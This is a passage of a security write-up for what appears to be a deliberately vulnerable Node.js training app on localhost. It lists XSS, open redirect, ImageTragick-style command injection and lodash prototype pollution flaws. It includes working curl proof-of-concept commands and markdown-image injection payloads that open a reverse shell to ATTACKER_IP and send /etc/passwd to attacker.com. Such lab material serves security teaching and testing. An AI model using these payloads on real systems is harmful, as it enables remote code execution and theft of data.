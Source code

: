
### 3. **XSS & Open Redirect** - Client-side Attacks (CWE-79, CWE-601)
- **Severity**: Medium (CVSS 6.1)
- **Exploits**: Unescaped template rendering + unvalidated redirects
- **Impact**: Session hijacking, phishing, credential theft

**XSS Example**:
```bash
curl "http://localhost:3001/login?redirectPage=%22%3E%3Cscript%3Ealert(1)%3C/script%3E"
```

**Open Redirect Example**:
```bash
curl -I "http://localhost:3001/login?redirectPage=https://evil.com/phishing"
```

---

### 4. **Command Injection** - ImageTragick RCE (CWE-78)
- **Severity**: Critical (CVSS 10.0)
- **Exploits**: Unsanitized input to `exec()` command
- **Impact**: Remote code execution, full system compromise
- **Vulnerable Code**: `exec('identify ' + url)` in routes/index.js:161

**Manual Command**:
```bash
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'content=![alt text](https://example.com/img.png;touch /tmp/pwned "Image")'

# Verify RCE
ls -la /tmp/pwned
```

**Advanced RCE Payloads**:
```bash
# Reverse shell
![alt text](https://x.com/i.png;bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1 "Image")

# Data exfiltration
![alt text](https://x.com/i.png;cat /etc/passwd | curl -X POST -d @- http://attacker.com "Image")

# Privilege escalation check
![alt text](https://x.com/i.png;id > /tmp/whoami.txt "Image")
```

---

### 5. **Prototype Pollution** - Lodash Exploit (CWE-1321)
- **Severity**: High (CVSS 7.5)
- **Exploits**: `lodash.merge()` vulnerable to __proto__ injection
- **Impact**: Privilege escalation, bypass access controls
- **Vulnerable Code**: `_.merge(message, req.body.message, {...})` in routes/index.js:347
